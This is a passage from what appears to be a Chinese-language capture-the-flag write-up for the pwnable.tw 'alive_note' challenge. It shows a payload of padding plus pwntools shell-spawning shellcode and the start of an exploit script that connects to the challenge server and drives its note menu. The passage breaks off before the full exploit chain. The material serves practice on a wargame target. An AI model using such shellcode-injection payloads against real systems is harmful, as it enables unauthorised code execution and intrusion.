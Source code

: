 0x10b - 0x0c8 = 0x43

故最后的payload构造为

```python
payload = "a" * 0x43
payload += asm(shellcraft.sh())
io.sendline(payload)
```

## EXP

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 0
if debug:
	elf = ELF("./alive_note")
	libc = ELF("./libc_64.so.6")
	io = process(elf.path,env={"LD_PRELOAD" : libc.path})
else:
	elf = ELF("./alive_note")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10300)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

'''
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}".format(io.pid)).readlines()[1][4:16], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc".format(io.pid)).readlines()[0][4:16], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 
'''

add = lambda index,name : (sla("choice :","1"),sla("Index :",str(index)),sla("Name :",name))
show = lambda index : (sla("choice :","2"),sla("Index :",str(index)))
delete = lambda index : (sla("choice :","3"),sla("Index :",str(index)))

def chunk_pad (num):
	for i in range(num):
		add(10,"aaaaaaa")
```